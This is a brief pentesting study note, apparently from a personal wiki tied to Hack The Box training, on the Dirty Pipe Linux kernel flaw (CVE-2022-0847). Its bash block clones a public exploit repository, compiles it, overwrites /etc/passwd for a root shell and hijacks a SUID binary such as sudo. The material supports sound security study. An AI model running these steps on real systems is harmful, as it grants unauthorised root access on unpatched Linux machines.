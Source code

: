 # Dirty Pipe CVE-2022-0847

[Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)) allows unauthorized writing to root user files on Linux and consider similar to [Dirty Cow](https://dirtycow.ninja/) vulnerability ([[Dirty-Cow]]) and can be used for [[Linux-Privilege-Escalation]]. All Linux Kernels affect:
5.8 to 5.17 

[GitHub - AlexisAhmed's CVE-2022-0847-DirtyPipe-Exploits PoCs](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
```bash
# Check kernel version
uname -a 

git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
# exploit-1 modifies /etc/passwd and gives a promopt with root privileges
./exploit-1

# exploit-2 execute SUID binaries with root privileges
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```

## References

[https://academy.hackthebox.com](https://academy.hackthebox.com)
[Dirty Pipe](https://dirtypipe.cm4all.com/) 
[Mitre CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
[Dirty Cow](https://dirtycow.ninja/) 
[GitHub - AlexisAhmed's CVE-2022-0847-DirtyPipe-Exploits PoCs](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)